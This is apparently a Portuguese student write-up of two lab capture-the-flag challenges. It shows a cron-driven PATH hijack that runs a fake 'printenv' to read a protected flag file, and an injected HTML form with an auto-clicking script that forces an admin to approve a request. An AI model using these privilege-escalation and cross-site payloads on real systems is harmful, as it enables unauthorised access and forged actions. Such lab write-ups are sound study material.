 # Desafios Extra/Opcionais

## British Punctuality

Explorando inicialmente o servidor, encontramos no diretório `home/flag_reader` um script `my_script.sh` que faz uso de um executável `/home/flag_reader/reader` cujo código fonte podemos ler no ficheiro `main.c`. Não temos permissões para escrever para nenhum destes ficheiros. Encontramos também  um diretório `flags` onde se encontra a flag que procuramos (`/flags/flag.txt`), no entanto, como seria esperado, não temos permissões para aceder a este diretório.  

`my_script.sh`  
```shell
#!/bin/bash

if [ -f "/tmp/env" ]; then
    echo "Sourcing env"
    export $(/usr/bin/cat /tmp/env | /usr/bin/xargs)
    rm /tmp/env
fi

printenv
exec /home/flag_reader/reader
```  

`main.c`  
```c
#include <stdio.h>
#include <unistd.h>

void my_big_congrats(){
    puts("TODO - Implement this in the near future!");
}

int main() {
    puts("I'm going to check if the flag exists!");

    if (access("/flags/flag.txt", F_OK) == 0) {
        puts("File exists!!");
        my_big_congrats();
    } else {
        puts("File doesn't exist!");
    }

    return 0;
}
```  

 
```bash
nobody@330311abc802:/home/flag_reader$ cd ../..
nobody@330311abc802:/$ ls -d -l flags
drwxr-x--- 2 root flag_reader 60 Dec 17 16:15 flags
nobody@330311abc802:/$ cd flags
bash: cd: flags: Permission denied
```  

Destas informações percebemos que para chegar à flag vamos precisar das permissões do utilizador `flag_reader` (`root` também funcionaria).  

Atendendo ao nome do desafio e há descrição *This challenge runs with a strict schedule* surge-nos a ideia do `cron`, um *job scheduller* para sistemas Unix.   

No diretório `etc/cron.d` encontramos um ficheiro `my_cron_script`.  

`my_cron_script`  
```shell
PATH=/bin:/usr/bin:/usr/local/bin

* * * * * flag_reader /bin/bash -c "/home/flag_reader/my_script.sh > /tmp/last_log"
```  

Interpretando o ficheiro percebemos que, a cada minuto, o script `my_script.sh` é corrido e o output do mesmo é escrito no ficheiro `/tmp/last_log`. Sabemos também que isto é feito com as permissões do utilizador `flag_reader`. Assim, a solução passa por encontrar e explorar uma vulnerabilidade no script que nos permita ler o ficheiro que contém a flag. No script é utilizado o comando `export`, pelo que concluimos que podemos, ao criar o ficheiro `tmp/env` alterar (por um minuto) as variáveis de ambiente do utilizador `flag_reader`. Isto é importante pois logo depois é utilizado o comando `printenv`, sem a indicação do caminho para o binário.  

```bash  
nobody@330311abc802:/$ whereis printenv
printenv: /usr/bin/printenv
```  

Juntando estas informações, podemos criar um novo ficheiro `printenv`, e adicionar o seu caminho à variável `PATH` para que seja utilizado no lugar do binário predefinido, podendo correr qualquer código shell com as permissões que queremos.

```bash
nobody@330311abc802:/tmp$ echo "PATH=/tmp:$PATH" > env
nobody@330311abc802:/tmp$ echo "cat /flags/flag.txt" > printenv
```

Depois do script ser executado basta ler o conteúdo do ficheiro `/tmp/last_log` e uma das linhas será a flag.

## Apply For Flag II

Verificou-se a existência do ID do pedido - `<requestID>` - e de um _form_ onde é possível inserir texto, que à partida não é devidamente tratado. Para efeitos de teste, deu-se um _input_ qualquer (_string_ "justification" no caso), que é verificado pelo _admin_ na página `http://ctf-fsi.fe.up.pt:5005/request/<requestID>`. 

![](./screenshots/apply_for_flag2_1.png) 

![](./screenshots/apply_for_flag2_2.png) 

Na página utilizada pelo _admin_, existe o botão `Give the flag` cujo código fonte se encontra no _screenshot_ abaixo. 

![](./screenshots/apply_for_flag2_3.png) 

![](./screenshots/apply_for_flag2_4.png) 

```html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/<requestID>/approve" role="form">
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag">
    </div>
</form>

<script> 
    window.onload = function(){
        document.getElementById('giveflag').click();
    } 
</script>
``` 

- Nota: neste caso `<requestID>` seria `fa9d70d9d2ed6c76ac2f46f6f203bb80b6f46dbb`.

![](./screenshots/apply_for_flag2_5.png) 

![](./screenshots/apply_for_flag2_6.png) 

![](./screenshots/apply_for_flag2_7.png) 



